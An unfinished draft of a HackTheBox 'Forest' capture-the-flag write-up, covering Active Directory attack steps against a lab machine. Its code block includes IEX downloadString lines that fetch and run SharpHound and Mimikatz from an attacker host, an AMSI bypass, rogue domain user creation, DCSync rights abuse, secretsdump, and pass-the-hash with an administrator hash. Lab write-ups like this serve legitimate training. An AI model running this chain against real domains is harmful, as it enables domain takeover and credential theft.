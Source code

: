 ```yaml
---
layout: post
title: "HTB: Forest"
date: 2022-08-10 18:07 +0100
tags: hackthebox htb activedirectory hacking ldap bloodhound
categories: [Pentesting, HackTheBox]
published: false
---
```


Forest is a fully Windows based machine which is semi-unique on HackTheBox in that it doesn't have a web server running. We start by enumerating the open ports eith `nmap` and find LDAP running. From there we're able to use APRep Roasting to get a hash which we crack using `JohnTheRipper` and gain access to the machine using `evil-winrm` where we're able to gather some information to dump into `BloodHound` and from there gain full admin through causing a DCSync and then dumping the Administrators hash with `impacket-secretsdump`.

Strap in.

![Forest](/assets/img/Forest.png)

## Enumeration

```bash
53/tcp    open  domain       syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2022-09-23 09:55:12Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack Microsoft Windows RPC
49680/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        syn-ack Microsoft Windows RPC
49685/tcp open  msrpc        syn-ack Microsoft Windows RPC
49701/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

Lots of open ports, most of them are garbage*

The main ones of interest for us since there is no web server, are the LDAP and SMB ports, and also Kerberos, but we can't really do much with Kerberos until we have some credentials.

And just for completeness, Simple DNS Plus is vulnerable to a [Remote DoS attack](https://www.exploit-db.com/exploits/6059)

> \*Something I've noticed in people who are new to Windows Pentesting is that they tend to panic when they see the output from `nmap` and see all of those ports open. Run Service Verification on them and you'll see it's mostly just RPC and while there is some useful information you can gain from RPC it's very low on the list of things you can actively exploit.
{: .prompt-tip }

### SMB

### LDAP

## User.txt

```bash
# Python Bloodhound Ingestor (returned some slightly jank data)
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.129.95.210

# SharpHound.ps1
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.3:8000/SharpHound.ps1")
Invoke-BloodHound

After reviewing the BloodHound data we find a path to DC Administrator via the following:

- svc-alfresco is a member of "Service Accounts"
- "Service Accounts" is a member of "Priviledged IT Accounts"
- "Priviledged IT Accounts" is a member of "Account Operators"
- members of "Account Operators" have "GenericAll" permissions on "Exchange Windows Permissions"


IWR -Uri http://10.10.14.3:8000/PowerView.ps1 -Outfile pv.ps1
Bypass-4MSI

# Add a user
net user bullsec Test123 /add /domain

# Add them to the correct groups
net group "Exchange Windows Permissions" bullsec /add
net localgroup "Remote Management Users" bullsec /add


evil-winrm -i 10.129.228.27 -u bullsec -p Test123
$pass = convertto-securestring 'Test123' -asplain -force
$cred = new-object system.management.automation.pscredential("htb\bullsec", $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bullsec -Rights DCSync
impacket-secretsdump htb/bullsec@10.129.228.27 -outputfile forest.hashes
impacket-psexec administrator@10.129.228.27 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
type C:\Users\Administrator\Desktop\root.txt
exit

$pass = convertto-securestring 'Test123' -asplain -force
$cred = new-object system.management.automation.pscredential("htb\bullsec", $pass)

# This doesn't work
Add-ObjectACL -PrincipalIdentity bullsec -Credential $cred -Rights DCSync
DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.

# This does


Add-DomainObjectAcl


IEX(New-Object Net.WebClient).downloadString("http://10.10.14.3:8000/Invoke-Mimikatz.ps1")
```

## BloodHound

![BloodHound Graph](/assets/img/2022-10-09-00-08-09.png)

## Root.txt
